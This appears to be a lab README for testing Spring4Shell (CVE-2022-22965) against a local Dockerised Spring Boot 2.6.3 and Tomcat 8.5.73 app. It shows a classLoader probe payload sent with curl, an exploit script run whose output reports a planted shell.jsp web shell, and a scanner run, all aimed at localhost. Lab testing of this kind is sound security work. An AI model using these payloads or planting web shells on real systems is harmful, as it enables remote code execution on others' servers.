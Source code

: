 ## Lab 1: Vulnerable deployment

Lab to test poc exploit on vulnerable spring boot version 2.6.3 deployed on fixed tomcat version 8.5.73 with open-jdk 11
```
Tomcat version: 8.5.73
openJDK: 11
Spring Boot: 2.6.3
```
How to deploy?

```
docker build . -t sp4s-tomcat8.5.73-jdk11-spb2.6.3 && docker run -p 8000:8080 sp4s-tomcat8.5.73-jdk11-spb2.6.3
```

You can access the application at http://localhost:8000/helloworld/greeting

Test if application is vulnerable

## Using curl 

Source: https://twitter.com/RandoriAttack/status/1509298490106593283

If application is vulnerable it will return HTTP 400 code.

Original POC
```
$ curl host:port/path?class.module.classLoader.URLs%5B0%5D=0
```

Since our lab application endpoint accepts data from POST request we will send payload in body

```bash
curl -i http://localhost:8000/helloworld/greeting -d class.module.classLoader.URLs%5B0%5D=0                               130 ⨯
HTTP/1.1 400 
Content-Type: application/json
Date: Sun, 17 Apr 2022 20:32:43 GMT
Connection: close
Content-Length: 110

{"timestamp":"2022-04-17T20:32:43.423+00:00","status":400,"error":"Bad Request","path":"/helloworld/greeting"
```

400 response indicates that application is vulnerable but is it exploitable? let's try to exploit it using another exploit poc


## POC 2

https://github.com/BobTheShoplifter/Spring4Shell-POC
```bash
python exploit.py --url http://localhost:8000/helloworld/greeting
[*] Resetting Log Variables.
[*] Response code: 200
[*] Modifying Log Configurations
[*] Response code: 200
[*] Response Code: 200
[*] Resetting Log Variables.
[*] Response code: 200
[+] Exploit completed
[+] Check your target for a shell
[+] File: shell.jsp
[+] Shell should be at: http://localhost:8000/shell.jsp?cmd=id
```

It gives 200 OK response which mease exploit is successful to confirm go to http://localhost:8000/shell.jsp?cmd=id so now
it is confirmed that spring boot version 2.6.3 running on tomcat version 8.5.73 with jdk11 is vulnerable.


let's try another poc

### POC 3
https://github.com/fullhunt/spring4shell-scan

```bash
python spring4shell-scan.py --url http://localhost:8000/helloworld/greeting
[•] CVE-2022-22965 - Spring4Shell RCE Scanner
[•] Scanner provided by FullHunt.io - The Next-Gen Attack Surface Management Platform.
[•] Secure your External Attack Surface with FullHunt.io.
[•] URL: http://localhost:8000/helloworld/greeting
[%] Checking for Spring4Shell RCE CVE-2022-22965.
[•] URL: http://localhost:8000/helloworld/greeting | PAYLOAD: class.module.classLoader[ib1153g]=ib1153g
[!!!] Target Affected (CVE-2022-22965)
[!] Total Vulnerable Hosts: 1
[!] http://localhost:8000/helloworld/greeting
                                             
```


